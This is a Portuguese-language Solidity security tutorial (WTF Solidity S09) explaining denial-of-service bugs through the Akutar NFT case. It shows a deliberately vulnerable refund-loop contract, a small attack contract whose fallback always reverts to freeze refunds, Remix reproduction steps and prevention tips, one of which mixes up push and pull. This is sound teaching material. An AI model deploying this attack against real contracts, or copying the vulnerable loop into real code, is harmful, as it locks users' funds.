 ```yaml
---
title: S09. Negando Serviço
tags:
  - solidity
  - segurança
  - fallback
---
```


# Segurança de Contratos Inteligentes, WTF Solidity: S09. Negando Serviço

Recentemente, eu tenho revisado meus conhecimentos em solidity para consolidar detalhes sobre a linguagem e criar um guia "WTF Solidity: Introdução Básica" para pessoas iniciantes (esse guia não é para pessoas que já são especialistas em programação). Serão lançadas de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk)｜[Grupo WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Todo o código e os tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos discutir a vulnerabilidade de negação de serviço (DoS) em contratos inteligentes e abordar maneiras de evitar esse tipo de problema. O projeto de NFTs Akutar perdeu 11.539 ETH, o que correspondia a aproximadamente 34 milhões de dólares na época, devido a um bug de DoS.

## DoS

No contexto da Web 2.0, um ataque de negação de serviço (DoS) ocorre quando um servidor é interrompido e não consegue fornecer serviços aos usuários legítimos devido ao envio de grande volume de lixo de informações ou interferências de informações pelo atacante. No Web3, uma DoS em contrato inteligente ocorre quando uma vulnerabilidade é explorada de forma que o contrato não consiga funcionar corretamente.

Em abril de 2022, um projeto de NFT chamado Akutar utilizou um leilão holandês para distribuição de tokens e arrecadou 11.539,5 ETH, tornando-se um grande sucesso. Anteriormente, os participantes da comunidade que possuíam o "Pass" desse projeto deveriam receber 0,5 ETH de reembolso. No entanto, quando eles tentaram processar os reembolsos, descobriram que o contrato inteligente tinha um bug de negação de serviço e todos os fundos ficaram presos. O contrato do Akutar tinha uma vulnerabilidade de DoS.

![](./img/S09-1.png)

## Exemplo de Vulnerabilidade

Abaixo, vamos examinar um contrato chamado `DoSGame` que representa uma versão simplificada do contrato do Akutar. A lógica desse contrato é bastante simples: quando o jogo começa, os jogadores fazem chamadas à função `deposit()` para depositar seus tokens ETH e o contrato registra seus endereços e saldos correspondentes. Quando o jogo termina, a função `refund()` é chamada para reembolsar os jogadores com seus ETH.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

// Jogo com vulnerabilidade de DoS - os jogadores fazem depósitos e, quando o jogo termina, recebem seus reembolsos
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // Todos os jogadores fazem depósitos no contrato
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Registra o saldo do jogador
        balanceOf[msg.sender] = msg.value;
        // Registra os endereços dos jogadores
        players.push(msg.sender);
    }

    // O jogo termina, os reembolsos começam a ser processados sequencialmente
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Reembolsa todos os jogadores em um loop
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

O bug nesse contrato está na função `refund()`. Quando os reembolsos são processados sequencialmente em um loop e a função `call` é utilizada para transferir os ETHs de volta para os jogadores, isso permite que um endereço malicioso execute algum código mal-intencionado em seu contrato durante esse processo.

```
(bool success, ) = player.call{value: refundETH}("");
```

Em seguida, escrevemos um contrato de ataque em que a função `attack()` permite que o endereço malicioso faça um depósito e participe do jogo. A função `fallback()` é uma função de retorno que rejeita todas as transações enviadas para o contrato, atacando a vulnerabilidade de DoS do contrato `DoSGame`. Isso ocorre porque a sequência de reembolsos não pode ser executada corretamente e os fundos ficarão presos no contrato, assim como os mais de 10.000 ETHs no contrato Akutar.

```solidity
contract Attack {
    // Ataque DoS quando os reembolsos são processados
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participa do jogo DoS e faz um depósito
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reprodução no Remix

**1.** Implante o contrato `DoSGame`.
**2.** Chame a função `deposit()` do contrato `DoSGame` para depositar e participar do jogo.
![](./img/S09-2.png)
**3.** Neste ponto, se você chamar a função `refund()` do contrato `DoSGame`, você receberá um reembolso normalmente.
！[](./img/S09-3.jpg)
**4.** Implante novamente o contrato `DoSGame` e implante o contrato `Attack`.
**5.** Chame a função `attack()` do contrato `Attack` para fazer um depósito e participar do jogo.
！[](./img/S09-4.jpg)
**6.** Chame a função `refund()` do contrato `DoSGame` para receber um reembolso e descubra que a transação não é bem sucedida, pois o ataque teve êxito.
！[](./img/S09-5.jpg)

## Medidas Preventivas

Vários erros lógicos podem levar a um DoS em um contrato inteligente, portanto, os desenvolvedores devem ter muito cuidado ao escrever contratos. Abaixo estão algumas áreas que requerem especial atenção:

1. Falhas na chamada de funções de contratos externos (por exemplo, `call`) não devem bloquear recursos importantes. Por exemplo, é possível remover a linha `require(success, "Refund Fail!");` do contrato que possui a falha para que o reembolso se prossiga mesmo se uma única transação falhar.
2. O contrato não deve se auto-destruir inesperadamente.
3. O contrato não deve entrar em loops infinitos.
4. Os parâmetros das funções `require` e `assert` devem ser definidos corretamente.
5. No processo de reembolso, é recomendável permitir que os usuários retirem os fundos por conta própria (push), em vez de realizar um envio em massa de fundos (pull).
6. Verifique se as funções de retorno (fallback) não afetam o funcionamento normal do contrato.
7. Certifique-se de que as principais funcionalidades do contrato ainda possam ser executadas mesmo que o envolvimento dos participantes (como o `owner`) nunca aconteça.

## Conclusão

Nesta lição, falamos sobre a vulnerabilidade de negação de serviço em contratos inteligentes. O projeto Akutar perdeu mais de 10.000 ETHs devido a essa vulnerabilidade. Vários erros lógicos podem levar a DoS, então os desenvolvedores precisam ter muito cuidado ao escrever contratos inteligentes, como permitir que os usuários cliem os seus próprios reembolsos ao invés de realizar um envio em massa de fundos para eles.

